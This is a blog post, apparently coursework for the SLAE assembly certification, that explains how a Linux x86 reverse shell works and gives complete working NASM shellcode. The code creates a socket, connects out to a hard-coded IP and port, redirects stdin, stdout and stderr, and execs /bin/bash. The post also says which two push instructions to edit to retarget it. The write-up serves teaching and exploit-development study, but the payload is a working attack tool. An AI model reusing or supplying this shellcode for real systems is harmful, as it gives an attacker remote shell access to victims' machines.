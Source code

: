 ```yaml
---
layout: post
title: SLAE Exercise 2 - Reverse Shell
subtitle: Linux x86 Reverse Shell
tags: [SLAE]
---
```


**Overview**
The second task of the SLAE exam required a bind shell to be written. The requirements for this were as follows:

- Reverse connects to configured IP and Port
- Execs shell on succesful connection
- IP and Port should be easily configurable

**Requirements**

To determine the requirements for this exercise it needs to be understood what a reverse shell is. 

*What is a reverse shell?* 
A reverse shell connects back to the listening attacker's system, presenting that connection with a shell to the target system. 

*So what is needed from a reverse shell?* 
As per the requirements, it needs to reverse connect to a configured IP address and port and execute a shell on a successful connection. 

Due to the similarities between this and a bind shell, no higher level code will need to be analysed to determine what to do. The main difference between the two shells is that with a bind shell the system is awaiting an inbound connection and with a reverse shell the system is actively connecting outbound. Let's take a look at the socket calls that were used for the bind shell:

- Socket
- Bind
- Listen
- Accept
	
As can be seen here, for the bind shell a socket was created, it was bound to a port then set to listen for an incoming connection and will ultimately accept that connection. For a reverse shell the socket doesn't need to do any of the socketcall syscalls after creating the socket, instead it needs to use the 'connect' socketcall to connect outbound to  the waiting attackers machine. Based on this, the syscalls that are required for the reverse shell will be:

- socket (socketcall) - to create a socket
- connect (socketcall) - to use the previously created socket to connect outbound
- dup2 - To duplicate file descriptors allowing the connection to effectively be 'piped'
- execve - To execute /bin/bash, presenting it to the socket connection

The majority of this shellcode has been heavily explained within exercise 1. The exception being the connect socketcall. From the man pages for connect - 'man 2 connect', the structure required can be seen as below:

```
	int connect(int sockfd, const struct sockaddr *addr,socklen_t addrlen);
```

Therefore values have to be pushed to the stack to satisfy these requirements to be placed into ecx. What is needed it:

1. The File Descriptor returned from the socket (edx)
2. The sockaddr structure, found in 'man 7 ip'
3. The addrlen, which will use the stack pointer

Based on the code written for the reverse shell [here](https://github.com/14Deep/SLAE/tree/master/Exercise%202), the stack has been visualised which should clear up what will be where on the stack when the pointer is pushed to ecx. The stack would appear as below:

	Addr	Value	  Description
  
	0x6	  Edx	  FD from socketcall
	0x5	  *0x3	  Pointer to location 0x3
	0x4	  0x10	  Addrlen set to 16 bytes
	0x3	  0x2	  2 for IF_INET
	0x2	  0x4d01  The port required (333)
	0x1	  0xec01  IP address
	0x0	  0xa8c0  IP address

The code that has been written can be seen below, note that this has no comments and is only the code. The fully commented version can be found on Github as referenced earlier. The code for this exercise is:

```
; Filename: reverse.nasm
; Author:   Jake
; Website:  http://github.com/14deep
; Purpose:  Reverse shell shellcode for Linux x86 for the SLAE course


global _start			

section .text
_start:

  xor eax, eax
  xor ebx, ebx
  xor ecx, ecx
  xor edx, edx
  xor esi, esi

  ;Socket - create a socket
  push eax     
  push 0x1    
  push 0x2     
  mov al, 0x66 
  mov bl, 0x1 
  mov ecx, esp 
  int 0x80     
  mov edx, eax 

  ;Connect - Connect outbound
  mov al, 0x66 
  mov bl, 0x3  
  push dword 0xec01a8c0 
  push word 0x4d01      
  push word 0x2	      
  mov ecx, esp 
  push 0x10    
  push ecx     
  push edx     
  mov ecx, esp 
  int 0x80     

  ;dup2 - duplicate the file descriptor to redirect the incoming connection 
  mov al, 0x3f  
  mov ebx, edx  
  mov ecx, esi  
  int 0x80      
  mov al, 0x3f
  inc ecx       
  int 0x80      
  mov al, 0x3f
  inc ecx       
  int 0x80      
	
  ;execve - execute '/bin/bash' to provide a shell
  xor eax, eax  
  push eax      
  push 0x68736162
  push 0x2f6e6962
  push 0x2f2f2f2f
  mov ebx, esp 
  xor ecx, ecx 
  xor edx, edx 
  mov al, 0xb   
  int 0x80    
  ```

The following should be changed in order to change the IP address connected to and the port:
```
	Push dword 0xec01a8c0
	Push word 0x4d01
```


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert

Student ID: 1092
